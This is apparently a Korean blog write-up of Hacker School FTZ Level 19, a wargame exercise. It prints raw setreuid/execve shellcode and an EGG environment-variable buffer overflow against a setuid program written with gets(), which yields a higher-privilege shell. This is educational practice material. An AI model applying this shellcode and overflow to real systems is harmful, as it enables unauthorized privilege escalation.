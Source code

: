 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 19"
description: "Do you know the ?"
comments: true
categories: ftz
---
```


<img data-action="zoom" src='{{ "assets/ftz/level19/1.jpg" | relative_url }}' alt='relative'>  

## 1) level19/swimming in pink 입력해 로그인  

``` c 
main()
{ char buf[20];
  gets(buf);
  printf("%s\n",buf);
}
```

<img data-action="zoom" src='{{ "assets/ftz/level19/2.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level19/3.png" | relative_url }}' alt='relative'>  

코드를 통해 gets 함수를 사용해 입력 길이에 제한을 두지 않았다는 것을 확인하였고,  
gdb로 분석해보니 buf 배열은 ebp에서 40 byte 떨어진 주소에 위치하고 bof를 방지하는 보안 대책이 없다는 것을 확인했습니다.  

RET에 쉘코드가 저장된 위치의 주소를 입력해 bof를 일으키면 쉘은 실행됩니다.  
문제는 level19 권한의 쉘이 실행된다는 것입니다.  

<img data-action="zoom" src='{{ "assets/ftz/level19/4.png" | relative_url }}' alt='relative'>  

앞서 문제에서는 프로그램 코드 내에 setreuid 함수가 호출됐었습니다.  
그러나 이번 문제에서는 setreuid 함수가 호출되지 않았습니다.  
따라서 이번 문제를 풀기 위해선 쉘코드에 setreuid 함수를 호출하는 기계어 코드를 넣어줘야 합니다.    

## 2) 쉘코드에 setreuid 함수 호출하는 기계어 추가하기  

모든 프로세스별로 Real User ID(RUID), Effective User ID(EUID), Saved User ID(SUID)가 있습니다.  
RUID는 시스템에 접속한 사용자의 ID입니다. 프로세스를 시작하는 사용자를 결정하는 데 사용됩니다.    
EUID는 프로세스에 대한 권한을 결정합니다. 프로그램에 SetUID가 설정되어 있다면 프로세스의 권한은 일시적으로 user의 ID를 갖습니다.  
SUID는 이전 EUID 값을 저장하는 데 사용됩니다. SUID로 이전 EUID를 복원할 수 있습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level19/5.png" | relative_url }}' alt='relative'>  

SetUID가 설정된 attackme 파일을 실행하기 전에는 RUID=level19, EUID=level19 입니다.
attackme 프로그램이 실행하면 EUID(level19)를 SUID에 복사한 뒤, EUID는 level20 user의 ID를 일시적으로 갖습니다.  
attackme 프로세스가 종료하면 SUID에 저장되어 있던 값을 EUID에 복사하여 기존 권한으로 전환합니다.  

프로그램 내에서 setreuid를 호출하지 않기 때문에 main 함수가 종료되면서 EUID는 level19 권한으로 전환되고  
쉘코드가 저장되어 있는 위치에 가서 쉘코드를 실행시키더라도  
쉘코드에서는 execve 함수만 호출하기 때문에 RUID, EUID(level19) 권한으로 쉘이 실행됩니다.  

따라서 쉘코드에 setreuid 함수를 호출하는 기계어를 추가해야 합니다.  

<a href="https://hsong2.github.io/ftz/2021/05/24/Hacker-School-FTZ-Shellcode.html#setreuid">setreuid 함수 호출이 포함된 쉘코드 작성 방법</a>  


위 문서를 참고하여 setreuid 함수 호출 코드가 포함된 39 byte의 쉘코드를 만들 수 있었습니다.    

``` bash
\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
```

## 3) attackme에 bof 일으켜 level20 권한의 shell 획득하기  

1. EGG 환경변수에 쉘코드 저장  

``` bash
export EGG=`python -c 'print "\x90"*30+"\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*30'`
```

2. EGG 환경변수 주소 확인하기 (1)  

``` bash
echo 'int main() { printf("ADDR -> %p\n", getenv("EGG")); }' > getenv.c
```

3. EGG 환경변수 주소 확인하기 (2)  

``` bash
gcc -o getenv getenv.c
```

4. EGG 환경변수 주소 확인하기 (3)  

``` bash
./getenv
```

5. attackme bof 공격하기
``` bash
(python -c 'print "\x90"*44+"[쉘코드가 저장된 주소]"'; cat) | ./attackme
```


<img data-action="zoom" src='{{ "assets/ftz/level19/6.png" | relative_url }}' alt='relative'>  

